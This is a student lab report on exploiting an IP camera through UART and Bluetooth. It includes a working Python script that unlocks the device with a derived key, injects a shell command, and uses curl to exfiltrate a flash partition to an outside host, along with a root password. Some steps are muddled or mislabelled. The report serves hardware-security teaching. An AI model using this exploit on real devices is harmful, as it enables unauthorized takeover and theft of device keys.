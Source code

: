 Research Group: Group A

Laboratory Title: Exploiting an IP Camera

Members:
-Ángel Vázquez
-Carolina Rodríguez
-Gabriel Figueroa
-Keishlyany Sanabria (Shadow)

Lab Description:

Objective and Goals:
Device Teardown
Open the device
Identify the chipset and their datasheet
Find communication protocols used by different chips
Analize System-on-Chip (SoC)
UART Pin Identification
Find UART pads with the help of SoC pinouts
Find UART pads/pins (pair of 4), which will provide the functionality for Transmit (Tx), Receive (Rx), GNG (Ground) and Vcc (Power)
Find Tx, Rx, and Ground above the SoC
Connect pins to Attify Badge and perform UART exploitation
Gain Root Access
Find the baudrate of the device
Interact over UART to obtain a root shell
Find root password using the script and mac address
Login to root user 

Resources and Dependencies used:
Hardware:
IP Camera
Screwdriver kit
Multimeter
Attify Badge
Jumper wires
Micro USB Cable
Software:
baudrate.py
minicom



Tasks (Lab Walkthrough):
Device Teardown (Setup):
Open up the device
Identify the various chipsets on the device (SoC, Network chip, Flash chip) 
Figure out their functionality, as well as locate their datasheets.
Pin Identification
Identify which pins correspond to the UART and see where the connection ends up. These pins are mostly assembled in groups of 3 or 4, and consist of connections for Rx, Tx, and Ground.
Perform a continuity test on the exposed pads 
Interacting with UART and Gain Root Shell Access
First, make sure that the camera board is properly connected to a power source, Attify Badge, and the breadboard (UART connection) to replace soldering
Once inside the Attify Virtual Machine, access the terminal and use the following commands in order to find the baudrate:
cd ~/tools/dev/tty* ; lists the ttys available and make sure the badge is present
cd baudrate/ ; access the location of the baudrate.py script
sudo python baudrate.py ; run the script, disconnect & connect the badge again
Press the Up arrow key to switch the preferred baudrate to 5500(?)
Let the script run; once you see readable data, hit Ctrl+C and wait for the script to ask you for the name you want to save the configuration with. Give it any name and hit Enter.
On a separate window, run the following script (extract-private-key.py) using the device mac address to get the needed password
 #extract-private-key.py
import hashlib
import base64
import asyncio


from bleak import BleakClient


# Pin code printed on the camera label
pincode = b"096641"


# The mac address of the IP camera to connect
mac_addr = "b0:c5:54:4b:8f:49"


def generate_cmd(cmd):
    return "P=;N={}&&({})&".format(pincode, cmd).encode()




def generate_unlock_command(device_name, pincode, challenge):
    hashit = device_name + pincode + challenge
    key = base64.b64encode(hashlib.md5(hashit).digest())[:16]
    return "M=0;K=".encode() + key




async def execute_cmd(client, cmdstr):
    cmd = generate_cmd(cmdstr)
    await client.write_gatt_char(
        "0000a201-0000-1000-8000-00805f9b34fb", cmd, response=True
    )




async def setup_wifi(client, essid, passwd):
    wifi_cfg = "M=0;I=" + essid + ";S=4;E=2;K=" + passwd
    await client.write_gatt_char(
        "0000a101-0000-1000-8000-00805f9b34fb", wifi_cfg.encode(), response=True
    )


    await client.write_gatt_char(
        "0000a102-0000-1000-8000-00805f9b34fb", "C=1".encode(), response=True
    )




async def main(mac_addr: str):
    async with BleakClient(mac_addr) as client:
        device_name = await client.read_gatt_char(
            "00002a00-0000-1000-8000-00805f9b34fb"
        )
        print("[+] Device name: ", device_name.decode())


        a001_data = await client.read_gatt_char("0000a001-0000-1000-8000-00805f9b34fb")
        M = a001_data.split(b";")[0].split(b"=")[1]
        C = a001_data.split(b";")[1].split(b"=")[1]


        if M == b"0":
            print("[+] Unlocked: Yes")
        else:
            print("[+] Unlocked: No")
            print("[*] Unlocking...")
            challenge = C
            print("[*] Challenge:", challenge.decode())


            unlock_cmd = generate_unlock_command(device_name, pincode, challenge)
            print("[*] Unlock command:", unlock_cmd.decode())


            await client.write_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb", unlock_cmd, response=True
            )


            a001_data = await client.read_gatt_char(
                "0000a001-0000-1000-8000-00805f9b34fb"
            )
            M = a001_data.split(b";")[0].split(b"=")[1]


            if M != b"0":
                print("[!] Unlock failed")
                return
            else:
                print("[+] Successfully unlocked")


        print("[+] Setting up WiFi...")
        await setup_wifi(client, "acer", "11223344")


        print("[+] Press enter when camera is connected (status led:stable green)")
        input()


        print("[+] Exfiltrating private key")
        await execute_cmd(client, "curl -T /dev/mtd1ro http://10.42.0.1:8080")




loop = asyncio.get_event_loop()
loop.run_until_complete(main(mac_addr))


Enter the root login user and password (555718df)
Press ls to see all root files available


Problems Encountered:
Difficulty finding the correct datasheets for the chips.
Difficulty finding the baudrate.py file. Had to use the locate command to find the python file since a “no such file or directory exists” error popped up upon trying it for the first time.
Device is not recognized by Computer. When looking for the entry names ttyUSB0 or ttyUSB1 to confirm if Attify Badge was connected, nothing was found, which meant it was not recognized.
Port configuration made laptop crash and restart


Conclusion:






